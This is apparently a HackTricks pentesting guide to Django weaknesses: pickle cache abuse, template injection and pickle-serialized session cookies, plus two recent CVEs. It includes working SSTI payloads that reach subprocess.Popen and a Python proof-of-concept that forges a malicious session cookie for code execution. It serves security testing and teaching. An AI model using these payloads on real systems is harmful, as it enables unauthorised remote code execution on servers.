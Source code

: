 # Django

{{#include /src/banners/hacktricks-training.md}}

## Cache Manipulation to RCE
Django's default cache storage method is [Python pickles](https://docs.python.org/3/library/pickle.html), which can lead to RCE if [untrusted input is unpickled](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf). **If an attacker can gain write access to the cache, they can escalate this vulnerability to RCE on the underlying server**.

Django cache is stored in one of four places: [Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [memory](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [files](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16), or a [database](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95). Cache stored in a Redis server or database are the most likely attack vectors (Redis injection and SQL injection), but an attacker may also be able to use file-based cache to turn an arbitrary write into RCE. Maintainers have marked this as a non-issue. It's important to note that the cache file folder, SQL table name, and Redis server details will vary based on implementation.

This HackerOne report provides a great, reproducible example of exploiting Django cache stored in a SQLite database: https://hackerone.com/reports/1415436

---

## Server-Side Template Injection (SSTI)
The Django Template Language (DTL) is **Turing-complete**. If user-supplied data is rendered as a *template string* (for example by calling `Template(user_input).render()` or when `|safe`/`format_html()` removes auto-escaping), an attacker may achieve full SSTI → RCE.

### Detection
1. Look for dynamic calls to `Template()` / `Engine.from_string()` / `render_to_string()` that include *any* unsanitised request data.
2. Send a time-based or arithmetic payload:
   ```django
   {{7*7}}
   ```
   If the rendered output contains `49` the input is compiled by the template engine.

### Primitive to RCE
Django blocks direct access to `__import__`, but the Python object graph is reachable:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
Find the index of `subprocess.Popen` (≈400–500 depending on Python build) and execute arbitrary commands:
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
A safer universal gadget is to iterate until `cls.__name__ == 'Popen'`.

The same gadget works for **Debug Toolbar** or **Django-CMS** template rendering features that mishandle user input.

---

## Pickle-Backed Session Cookie RCE
If the setting `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` is enabled (or a custom serializer that deserialises pickle), Django *decrypts and unpickles* the session cookie **before** calling any view code. Therefore, possessing a valid signing key (the project `SECRET_KEY` by default) is enough for immediate remote code execution.

### Exploit Requirements
* The server uses `PickleSerializer`.
* The attacker knows / can guess `settings.SECRET_KEY` (leaks via GitHub, `.env`, error pages, etc.).

### Proof-of-Concept
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
    def __reduce__(self):
        return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
Send the resulting cookie, and the payload runs with the permissions of the WSGI worker.

**Mitigations**: Keep the default `JSONSerializer`, rotate `SECRET_KEY`, and configure `SESSION_COOKIE_HTTPONLY`.

---

## Recent (2023-2025) High-Impact Django CVEs Pentesters Should Check
* **CVE-2025-48432** – *Log Injection via unescaped `request.path`* (fixed June 4 2025). Allows attackers to smuggle newlines/ANSI codes into log files and poison downstream log analysis. Patch level ≥ 4.2.22 / 5.1.10 / 5.2.2. 
* **CVE-2024-42005** – *Critical SQL injection* in `QuerySet.values()/values_list()` on `JSONField` (CVSS 9.8). Craft JSON keys to break out of quoting and execute arbitrary SQL. Fixed in 4.2.15 / 5.0.8. 

Always fingerprint the exact framework version via the `X-Frame-Options` error page or `/static/admin/css/base.css` hash and test the above where applicable.

---

## References
* Django security release – "Django 5.2.2, 5.1.10, 4.2.22 address CVE-2025-48432" – 4 Jun 2025. 
* OP-Innovate: "Django releases security updates to address SQL injection flaw CVE-2024-42005" – 11 Aug 2024. 

{{#include /src/banners/hacktricks-training.md}}
